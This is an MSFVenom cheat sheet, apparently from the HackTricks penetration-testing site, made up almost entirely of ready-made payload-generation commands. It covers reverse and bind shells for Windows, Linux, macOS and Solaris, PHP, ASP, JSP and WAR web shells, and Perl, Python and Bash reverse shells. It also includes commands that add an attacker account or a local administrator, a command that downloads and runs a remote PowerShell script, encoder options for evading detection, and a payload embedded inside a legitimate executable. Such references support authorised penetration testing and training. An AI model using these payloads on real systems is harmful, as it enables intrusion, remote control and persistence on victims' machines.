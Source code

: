 source: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#listing

**MSFVenom - CheatSheet**
<pre> msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP> </pre>
One can also use the -a to specify the architecture or the --platform

**Listing**
<pre>msfvenom -l #Payloads</pre>
<pre>msfvenom -l encoders #Encoders </pre>

**Common params when creating a shellcode**
<pre> -b "\x00\x0a\x0d" </pre>
<pre> -f c </pre>
<pre> -e x86/shikata_ga_nai -i 5 </pre>
<pre>EXITFUNC=thread </pre>
<pre> PrependSetuid=True #Use this to create a shellcode that will execute something with SUID </pre>


**Windows**
---
**Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe </pre>
**Bind Shell**
<pre>msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe </pre>
**Create User**
<pre>msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe </pre>
**CMD Shell*
<pre> msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe </pre>
**Execute Command**
<pre> msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe </pre>
<pre>msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe </pre>
**Encoder**
<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe </pre>
**Embedded inside executable**
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe </pre>

**Linux Payloads**
---
**Reverse Shell**
<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf </pre>
<pre>msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf </pre>
**Bind Shell**
<pre>msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf </pre>
**SunOS (Solaris)**
<pre>msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf </pre>

**MAC Payloads**
---
**Reverse Shell**
<pre>msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho </pre>
**Bind Shell**
<pre>msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho </pre>

**Web Based Payloads**
---
**PHP Reverse Shell**
<pre>msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php </pre>
<pre>cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </pre>

**ASP/x Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp</pre>
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx </pre>

**JSP Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp </pre>
**WAR Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war </pre>
**NodeJS Reverse Shell**
<pre>msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) </pre>
**Script Language payloads**
---
**Perl**
<pre>msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl </pre>
**Python**
<pre>msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py </pre>
**Bash**
<pre>msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh </pre>
